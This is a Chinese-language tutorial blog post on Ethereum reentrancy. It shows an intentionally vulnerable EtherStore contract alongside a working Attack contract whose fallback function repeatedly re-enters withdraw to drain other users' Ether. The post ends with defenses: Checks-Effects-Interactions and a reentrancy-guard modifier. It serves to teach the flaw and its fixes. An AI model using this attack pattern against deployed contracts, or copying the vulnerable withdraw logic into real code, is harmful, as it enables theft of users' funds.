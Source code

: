 ```yaml
---
date: 2022-06-16
layout: post
title: 重入漏洞分析
description: 详解重入漏洞的原理和攻击方法
category: study
tags:
 - 学习
author: aventusc
---
```


### 前置知识

以太坊智能合约的特点之一是合约之间可以进行相互间的外部调用。同时，以太坊的转账不仅仅局限于外部账户，合约账户同样可以拥有以太并进行转账等操作，且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用。

**发送以太的方式：**

- `transfer` (2300 gas, 抛出错误)
- `send` (2300 gas, 返回布尔值)
- `call` (转发所有 gas 或设置 gas，返回布尔值)

*注：括号中是这个方法的执行操作，他们的第一个返回值都要么是布尔值要么是抛出错误。*

**接收以太的方式：**

接收 Ether 的合约**必须至少**具有以下函数之一

- `receive() external payable`
- `fallback() external payable`

*如果 `msg.data` 为空，则调用 `receive()` ，否则调用 `fallback()`。*

我们先给重入漏洞下个定义：可以认为合约中所有的外部调用都是不安全的，都有可能存在重入漏洞。例如：如果外部调用的目标是一个攻击者可以控制的**恶意合约A**，那么当**被攻击的合约B**在调用**恶意合约A**的时候攻击者可以执行**恶意的逻辑C**然后再重新进入到**被攻击合约B**的内部，通过这样的方式来发起一笔非预期的外部调用，从而影响**被攻击合约B**正常的执行逻辑。

### 漏洞示例

举个例子来对重入攻击的原理进行分析：

下面面的代码：`EtherStore` 就是个普通的充提币的合约，凭什么说他有重入攻击呢？我们来看这个合约的 `withdraw` 函数，这个函数中的转账操作有一个外部调用（msg.sender.call{value: bal}），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：

1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 `fallback` 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
2. 我们可以看到在 `withdraw` 函数中是先执行外部调用进行转账后才将账户余额清零的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 `balance[msg.sender]=0` 之前一直循环调用 `withdraw` 函数一直提币从而将合约账户清空呢？

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

/*
我们看到 EtherStore 合约是一个充提合约，我们可以在其中充提以太。
该合约会受到重入攻击
让我们看看为什么。

1. 部署 EtherStore 合约；
2. 用户 1（Alice）和用户 2（Bob）都分别将 1 个以太币充值到 EtherStore 合约中；
3. 攻击者 Eve 部署 Attack 合约时传入 EtherStore 合约的地址；
4. 攻击者 Eve 调用 Attack.attack 函数，Attack.attack 又调用 EtherStore.deposit 函数，
    充值 1 个以太币到 EtherStore 合约中，此时 EtherStore 合约中共有 3 个以太，
    分别为 Alice、Bob 的 2 个以太和攻击者 Eve 刚刚充值进去的 1 个以太。
    然后 Attack.attack 又调用 EtherStore.withdraw 函数将自己刚刚充值的以太取出，
    此时 EtherStore 合约中就只剩下 Alice、Bob 的 2 个以太了；

接下来会发送什么？
当 Attack.attack 调用 EtherStore.withdraw 提取了先前 Eve 充值的 1 个以太时会触发 Attack.fallback 函数。
这时只要 EtherStore 合约中的以太大于或等于 1 Attack.fallback 就会一直调用 EtherStore.withdraw 函数将 EtherStore 合约中的以太提取到 Attack 合约中，直到 EtherStore 合约中的以太小于 1 。
这样攻击者 Eve 会得到 EtherStore 合约中剩下的 2 个以太币（Alice、Bob 充值的两枚以太币）。

下面是攻击者的函数调用流程：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); //选择性处理多返回值，将
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### 修复建议

1. 作为开发人员

看了上面的攻击手法相信大家对重入漏洞都会有一个自己的认知，但是只会攻击可不行，我们的目的是为了防御，那么作为开发人员如何避免写出漏洞代码还有作为审计人员如何快速发现问题代码呢，下面我们就以这两个身份来分析如何防御重入漏洞和如何在代码中快速找出重入漏洞：

- 写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）；
- 加入防重入锁。

下面是一个防重入锁的代码示例：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```

1. 作为审计人员

作为审计人员我们需要关注的是重入漏洞的特征：所有涉及到外部合约调用的代码位置都是不安全的。这样在审计过程中需要重点关注外部调用，然后推演外部调用可能产生的危害，这样就能判断这个地方是否会因为重入点而产生危害。
